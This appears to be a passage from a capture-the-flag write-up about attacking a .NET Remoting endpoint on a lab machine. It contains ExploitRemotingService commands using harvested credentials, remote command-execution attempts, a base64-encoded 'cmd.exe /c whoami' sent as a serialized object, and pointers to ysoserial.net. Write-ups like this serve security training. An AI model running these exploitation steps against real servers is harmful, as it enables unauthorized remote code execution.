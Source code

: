 ```
run  file [args]              : Upload and execute an assembly, calls entry point
user                          : Print the current username
ver                           : Print the OS version
raw base64_object|file        : Send a raw serialized object to the service.
```

I was able to either send the connection through tcp port or named pipe.  I seemed to have both at my disposal...

### Using a Windows VM

After running into too many errors with `wine` and getting `.net` and `mono` to work, I decided just to move over to a Windows VM instead.  I had a Windows developer image from Microsoft.

```
PS C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Debug> ./ExploitRemotingService.exe tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint ver
Error, couldn't detect version, using host: 4.0.30319.42000
Detected version 4 server
```

The program seemed to be working. I added `-s` to put it in secure mode since I seemed to need to use a username and password

```
PS C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Debug> ./ExploitRemotingService.exe -s --user=debug --pass="SharpApplicationDebugUserPassword123!" tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint cmd whoami
Error, couldn't detect version, using host: 4.0.30319.42000
Detected version 4 server
System.Security.Authentication.InvalidCredentialException: The server has rejected the client credentials. ---> System.ComponentModel.Win32Exception: The logon attempt failed
```

Adding the parameter `--ver=4` got rid of the "couldnt detect version" error, but I still 

```
PS C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Debug> ./ExploitRemotingService.exe -s --user="debug" --pass="SharpApplicationDebugUserPassword123!" --ver=4 tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw
Must specify base64 encoded string or a file containing the raw data.
PS C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Debug> ./ExploitRemotingService.exe -s --user="debug" --pass="SharpApplicationDebugUserPassword123!" --ver=4 tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw Y21kLmV4ZSAvYyB3aG9hbWk=
System.Runtime.Serialization.SerializationException: The input stream is not a valid binary format. The starting contents (in bytes) are: 63-6D-64-2E-65-78-65-20-2F-63-20-77-68-6F-61-6D-69 ...
```

After testing a lot of the different options and getting credentials rejected errors, I got a different error with the raw option.  I tried base64 encoding `cmd.exe /c whoami` but it said the serialization wasnt a valid binary format

### ysoserial

* https://swapneildash.medium.com/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817
* https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/
* https://github.com/pwntester/ysoserial.net
